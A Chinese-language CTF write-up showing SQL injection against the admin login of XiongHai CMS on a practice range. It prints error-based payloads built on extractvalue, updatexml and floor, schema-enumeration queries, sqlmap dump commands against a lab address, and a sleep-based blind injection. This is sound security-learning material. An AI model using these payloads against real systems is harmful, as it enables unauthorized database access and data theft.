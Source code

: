 ```yaml
---
title: "熊海 CMS 后台登录的 SQL 注入"
date: 2024-02-12
description: "管理员登录页面可以在不登陆的情况下用 SQL 注入泄露数据库信息"
tags: ["SQL注入","后端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


这是一个基于熊海 cms 的靶场，并且提示我们存在 post 注入。打开 burp 抓个包，用 burp 目标里面的目录扫描找到了后台 /admin，打开得到管理员登录界面。

有必要说的是，这个登录页面是个弱口令，但是急于用弱口令登录进去就会错过外面这个登录页面的漏洞。

最终我们发现这个登录页面存在 sql 注入，可以在不登录的情况下借助外带的语法报错拿到数据库信息。

## 语法回顾

我们使用 extractvalue() 和 concat() 这两个函数引起报错。

extractvalue(xml_frag,xpath_expr) 是 mysql 的 xml 函数，有两个字符串参数，我们写 extractvalue(1,concat(...)) 就可以了。concat() 就是拼接字符串，我们写一个 0x5c 或者 0x7e 就会引起路径错误，payload 如下。

    1' and extractvalue(1,concat(
        0x5c,
        0x7e,
        (select value from flag_db.flag limit 0,1),
        0x7e
        )) and '1'='1

同样是 xml 函数的 updatexml() 可以替代 extractvalue()，payload 如下。

    1' and updatexml(1,concat(
        0x5c,
        0x7e,
        (select value from flag_db.flag limit 0,1)，
        0x7e
    ),1) and '1'='1

在这两个 xml 函数用不了的时候用 floor() 报错也可以，但是写起来会比较麻烦，payload 如下。

    1' and (select 1 from (select count(*),concat(
            (select value from flag_db.flag limit 0,1),
            0x2b,
            floor(rand(0)*2)
        )x from information_schema.tables 
        group by x)a) 
    and '1'='1

上述 payload 的成功效果如下图所示。

![sqli4](/images/sqli1/sqli4-14.png)

![sqli4](/images/sqli1/sqli4-13.png)

![sqli4](/images/sqli1/sqli4-12.png)

## 手工注入

登录页面如下。首先我们输入单引号发现报错，这说明 user 可能存在 post 注入。

![sqli4](/images/sqli1/sqli4-6.png)

![sqli4](/images/sqli1/sqli4-7.png)

考虑到有报错页面但是没有回显点，我们用 extractvalue() 进行注入，旨在引起语法错误。构造如下 payload。

首先爆数据库名称。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select schema_name from information_schema.schemata 
            limit 0,1
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-9.png)

令 limit 0,1 中的 0 遍历 0~4 可以爆出所有数据库名称后，打开 flag_db 查询表名。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select table_name from information_schema.tables 
            where table_schema='flag_db'
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-8.png)

然后查询字段。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select column_name from information_schema.columns 
            where table_schema='flag_db' and table_name='flag'
            limit 0,1
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-10.png)

最终拿到 flag=ywaq{okjzxdHdsa}。

    1' and extractvalue(1,concat(0x5c,0x2d2d2d2d2d2d2d,(
        select value from flag_db.flag 
            limit 0,1
    ),0x2d2d2d2d2d2d2d)) and '1'='1

![sqli4](/images/sqli1/sqli4-11.png)

## 用 sqlmap 扫描

使用的 sqlmap 语句如下。--forms 是对登录框的表单进行扫描，如果这个 forms 指令行不通，可以考虑抓包到 txt 用 -r 扫描。

    sqlmap -u http://111.9.41.91:53008/admin/?r=index  --forms --batch --dbs

--dbs 的意思是列出所有数据库名称

    sqlmap -u http://111.9.41.91:53008/admin/?r=index  --forms --batch -D flag_db --dump

-D 是指定数据库，--dump 是以文件形式导出。

![sqli4](/images/sqli1/sqli4-0.png)

![sqli4](/images/sqli1/sqli4-1.png)

![sqli4](/images/sqli1/sqli4-2.png)

## 其他发现

这里 sqlmap 提示存在时间盲注。我们用子查询输入

    ' and (select qwe from (select(sleep(10)))qwe) -- qwe

可以看到延迟有效。

![sqli4](/images/sqli1/sqli4-5.png)

但是我们发现这里的 sleep 必须用上述语句提高优先级，如果只输入 `' and sleep(10) -- qwe` 则无效。